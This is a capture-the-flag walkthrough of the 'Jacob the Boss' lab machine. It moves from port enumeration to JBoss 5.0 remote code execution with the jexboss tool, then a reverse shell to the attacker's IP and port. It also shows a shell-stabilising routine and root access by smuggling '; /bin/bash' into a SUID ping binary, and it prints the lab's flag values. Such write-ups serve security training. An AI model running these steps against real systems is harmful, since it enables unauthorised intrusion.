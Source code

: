 ```yaml
---
sticker: emoji//1f574-fe0f
---
```


# JACOB THE BOSS

## ENUMERATION

***

### OPEN PORTS

***

| PORT      | SERVICE                   |
| --------- | ------------------------- |
| 22/tcp    | SSH (OpenSSH 7.4)         |
| 80/tcp    | HTTP (Apache 2.4.6)       |
| 111/tcp   | RPCbind                   |
| 1098/tcp  | Java RMI                  |
| 1099/tcp  | Java Object Serialization |
| 3306/tcp  | MySQL/MariaDB             |
| 8008/tcp  | HTTP                      |
| 8083/tcp  | JBoss HTTP                |
| 40296/tcp | Unknown                   |
| 40982/tcp | Java RMI                  |
| 52306/tcp | Unknown                   |

We need to add `jacobtheboss.box` to `/etc/hosts`:

```
echo 'IP jacobtheboss.box' | sudo tee -a /etc/hosts
```

## RECONNAISSANCE

***

![](gitbook/cybersecurity/images/Pasted%20image%2020250408162521.png)

Web application located at port 80 contains an admin login page and some other functionalities, I tried `XSS` on the search bar but it didn't work, I also tried `LFI` but same happened, seems like this is not the intended path to take, now, if we remember correctly, we got another website located at port 8080:

![](gitbook/cybersecurity/images/Pasted%20image%2020250408162626.png)

We got something called `Jboss`, if we check the version:

```
whatweb http://jacobtheboss.box:8080

http://jacobtheboss.box:8080 [200 OK] Apache, Country[RESERVED][ZZ], HTTPServer[Apache-Coyote/1.1], IP[10.10.230.73], JBoss[5.0][JBossWeb-2.1], Title[Welcome to JBoss&trade;], X-Powered-By[Servlet 2.5; JBoss-5.0/JBossWeb-2.1]
```

We are dealing with `JBoss 5.0`, if we search for an exploit, we can find this:

![](gitbook/cybersecurity/images/Pasted%20image%2020250408162907.png)

We got `RCE`, let's proceed to exploitation phase.

## EXPLOITATION

***

Due to us knowing that we got RCE, we can download the exploit and test:

```
Github: https://github.com/joaomatosf/jexboss.git
```

After downloading the script, we can use it with:

```
python jexboss.py -host http://jacobtheboss.box:8080
```

We can see this:

![](gitbook/cybersecurity/images/Pasted%20image%2020250408163415.png)

There we go, we got the shell, as it says in the script, to get a reverse shell, we can simply type the following:

```
jexremote=IP:PORT
```

If we check our listener:

![](gitbook/cybersecurity/images/Pasted%20image%2020250408163529.png)

We got the connection, let's start the privilege escalation phase.

## PRIVILEGE ESCALATION

***

First step is stabilizing our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250408163630.png)

We can read user flag now:

```
[jacob@jacobtheboss /]$ cat /home/jacob/user.txt
f4d491f280de360cc49e26ca1587cbcc
```

If we check for SUID 4000 binaries, we find this:

```
[jacob@jacobtheboss /]$ find / -perm -4000 2>/dev/null
/usr/bin/pingsys
/usr/bin/fusermount
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/mount
/usr/bin/chage
/usr/bin/umount
/usr/bin/crontab
/usr/bin/pkexec
/usr/bin/passwd
/usr/sbin/pam_timestamp_check
/usr/sbin/unix_chkpwd
/usr/sbin/usernetctl
/usr/sbin/mount.nfs
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/libexec/dbus-1/dbus-daemon-launch-helper
```

We got a few that may be interesting but after testing all of them, the only one that I could find some info was `pingsys`

![](gitbook/cybersecurity/images/Pasted%20image%2020250408164534.png)

Which means that in order to get root, we can do the following:

```
/usr/bin/pingsys '127.0.0.1; /bin/bash'
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250408164651.png)

There we go, we got the root shell and can finally read `root.txt`:

```
[root@jacobtheboss /]# cat /root/root.txt
29a5641eaa0c01abe5749608c8232806
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250408164733.png)
